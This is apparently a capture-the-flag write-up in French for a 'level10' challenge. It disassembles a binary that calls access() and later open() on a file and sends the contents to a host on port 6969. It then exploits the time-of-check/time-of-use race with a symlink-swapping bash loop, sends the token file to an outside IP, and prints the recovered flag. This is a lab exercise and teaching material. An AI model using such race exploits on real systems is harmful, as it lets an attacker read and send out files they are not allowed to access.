 On voit que la fonction `access` est utilisé dans la fonction `main`,
elle vérifie si l'utilisateur réel a le droit d'accès au fichier en lecture.

```bash
> disassemble main
...
0x0804871f <+75>:	mov    eax,DWORD PTR [esp+0x1c]
0x08048723 <+79>:	mov    eax,DWORD PTR [eax+0x4]
0x08048726 <+82>:	mov    DWORD PTR [esp+0x28],eax  // argv[1]
0x0804872a <+86>:	mov    eax,DWORD PTR [esp+0x1c]
0x0804872e <+90>:	mov    eax,DWORD PTR [eax+0x8]
0x08048731 <+93>:	mov    DWORD PTR [esp+0x2c],eax  // argv[2]
0x08048735 <+97>:	mov    eax,DWORD PTR [esp+0x1c]
0x08048739 <+101>:	add    eax,0x4
0x0804873c <+104>:	mov    eax,DWORD PTR [eax]
0x0804873e <+106>:	mov    DWORD PTR [esp+0x4],0x4
0x08048746 <+114>:	mov    DWORD PTR [esp],eax
0x08048749 <+117>:	call   0x80485e0 <access@plt>
0x0804874e <+122>:	test   eax,eax
0x08048750 <+124>:	jne    0x8048940 <main+620>
...
0x08048940 <+620>:	mov    eax,0x8048b3f
0x08048945 <+625>:	mov    edx,DWORD PTR [esp+0x28]
0x08048949 <+629>:	mov    DWORD PTR [esp+0x4],edx
0x0804894d <+633>:	mov    DWORD PTR [esp],eax
0x08048950 <+636>:	call   0x8048520 <printf@plt>
0x08048955 <+641>:	mov    edx,DWORD PTR [esp+0x104c]
0x0804895c <+648>:	xor    edx,DWORD PTR gs:0x14
0x08048963 <+655>:	je     0x804896a <main+662>
0x08048965 <+657>:	call   0x8048540 <__stack_chk_fail@plt>
0x0804896a <+662>:	leave  
0x0804896b <+663>:	ret

> x/s 0x8048b3f
0x8048b3f:	 "You don't have access to %s\n"
```

Une connection est établie avec l'hôte passé en deuxième argument.

```bash
> disassemble main
...
0x08048778 <+164>:	mov    DWORD PTR [esp+0x8],0x0
0x08048780 <+172>:	mov    DWORD PTR [esp+0x4],0x1
0x08048788 <+180>:	mov    DWORD PTR [esp],0x2
0x0804878f <+187>:	call   0x80485f0 <socket@plt>
0x08048794 <+192>:	mov    DWORD PTR [esp+0x30],eax  // fd
0x08048798 <+196>:	lea    eax,[esp+0x103c]
0x0804879f <+203>:	mov    DWORD PTR [eax],0x0
0x080487a5 <+209>:	mov    DWORD PTR [eax+0x4],0x0
0x080487ac <+216>:	mov    DWORD PTR [eax+0x8],0x0
0x080487b3 <+223>:	mov    DWORD PTR [eax+0xc],0x0
0x080487ba <+230>:	mov    WORD PTR [esp+0x103c],0x2
0x080487c4 <+240>:	mov    eax,DWORD PTR [esp+0x2c]  // argv[2]
0x080487c8 <+244>:	mov    DWORD PTR [esp],eax
0x080487cb <+247>:	call   0x8048600 <inet_addr@plt>
0x080487d0 <+252>:	mov    DWORD PTR [esp+0x1040],eax
0x080487d7 <+259>:	mov    DWORD PTR [esp],0x1b39     // Port 6969
0x080487de <+266>:	call   0x8048550 <htons@plt>
0x080487e3 <+271>:	mov    WORD PTR [esp+0x103e],ax
0x080487eb <+279>:	mov    DWORD PTR [esp+0x8],0x10
0x080487f3 <+287>:	lea    eax,[esp+0x103c]
0x080487fa <+294>:	mov    DWORD PTR [esp+0x4],eax
0x080487fe <+298>:	mov    eax,DWORD PTR [esp+0x30]
0x08048802 <+302>:	mov    DWORD PTR [esp],eax
0x08048805 <+305>:	call   0x8048610 <connect@plt>
...
```   

Ensuite le fichier, passé en premier argument, est ensuite ouvert avec la fonction `open`

```bash
> disassemble main
...
0x08048894 <+448>:	mov    eax,DWORD PTR [esp+0x28]  // argv[1]
0x08048898 <+452>:	mov    DWORD PTR [esp],eax
0x0804889b <+455>:	call   0x80485a0 <open@plt>
0x080488a0 <+460>:	mov    DWORD PTR [esp+0x34],eax
...
```

Le contenu du fichier est ensuite lu avec la fonction `read`

```bash
> disassemble main
...
0x080488c3 <+495>:	mov    DWORD PTR [esp+0x8],0x1000  // size
0x080488cb <+503>:	lea    eax,[esp+0x3c]
0x080488cf <+507>:	mov    DWORD PTR [esp+0x4],eax     // buf
0x080488d3 <+511>:	mov    eax,DWORD PTR [esp+0x34]
0x080488d7 <+515>:	mov    DWORD PTR [esp],eax         // fd
0x080488da <+518>:	call   0x8048510 <read@plt>
0x080488df <+523>:	mov    DWORD PTR [esp+0x38],eax
...
```

Le contenu du fichier est ensuite envoyé au socket avec la fonction `write`

```bash
> disassemble main
...
0x08048916 <+578>:	mov    eax,DWORD PTR [esp+0x38]
0x0804891a <+582>:	mov    DWORD PTR [esp+0x8],eax  // size
0x0804891e <+586>:	lea    eax,[esp+0x3c]
0x08048922 <+590>:	mov    DWORD PTR [esp+0x4],eax  // buf
0x08048926 <+594>:	mov    eax,DWORD PTR [esp+0x30]
0x0804892a <+598>:	mov    DWORD PTR [esp],eax      // fd
0x0804892d <+601>:	call   0x80485c0 <write@plt>
...
```

La vulnérabilité se situe au niveau de la fonction `access` car entre l'appel de la fonction `access`
et la fonction `open` on peut changer le contenu du fichier.

Pour faire cela on peut utiliser un lien symbolique qui pointera vers un fichier que l'utilisateur `level10` possède
comme ça la fonction `access` retourne une valeur positive, ensuite on modifie le lien symbolique pour qu'il pointe vers le fichier `token`
et la fonction `open` va l'ouvrir sans problème.

```bash
while true; do ln -fs ~/level10 /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```
```bash
./level10 /tmp/exploit 10.12.3.12
```

```bash
woupa2yuojeeaaed06riuj63c
```
